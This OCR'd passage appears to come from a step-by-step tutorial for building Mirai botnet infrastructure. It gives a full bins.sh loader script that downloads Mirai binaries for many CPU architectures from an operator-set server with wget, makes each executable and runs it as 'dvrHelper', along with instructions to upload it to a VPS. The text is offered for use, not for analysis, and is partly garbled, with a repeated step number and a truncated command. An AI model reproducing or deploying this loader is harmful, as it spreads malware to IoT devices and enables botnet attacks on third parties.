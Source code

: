  well check if you see the files moved in earl step 
 
 Open one browser exemple: ( Firefox )
 type the ip and enter and check if you see the files 
 
 -------------------------NO MORE CODE-------------------STOP HERE AND READ----------------
 [Step20] - create and unpload the bins.sh file
 
 well to create this file use the notepadc++ look on google and use the official web site and install it.
 
 open and create a new document (empty document)
 
 and copy and paste this but change this area (IP OR HOSTNAME:80) put you IP or you host name some exemple:
 8.8.8.8:80
 or
 google.com:80 
 
 
 copy and paste this code and save the file in this name bins.sh please look if don't have any txt or something after the .sh
 is not bins.sh.txt!!!
 
 is only ----> bins.sh 
 
 copy, paste and save with this name bins.sh
 code: 
 
 
 
 #!/bin/sh

# Edit
WEBSERVER="IP OR HOSTNAME:80"
# Stop editing now 

BINARIES="mirai.arm mirai.m68k miraint.x86 miraint.spc miraint.sh4 miraint.ppc miraint.mpsl miraint.mips miraint.arm7 miraint.arm5n miraint.arm"

for Binary in $BINARIES; do
	wget http://$WEBSERVER/$Binary -O dvrHelper
	chmod 777 dvrHelper
	./dvrHelper
done

rm -f "

 
 
 
 -------------------------NO MORE CODE-------------------STOP HERE AND READ----------------
 [Step20] - create and unpload the bins.sh file
 
 well nice, well open Winscp or Mobaxterm 
 and open you vps server in sftp (22) and unpload at this directory,
 
 directory to unpload the (bins.sh)file,
 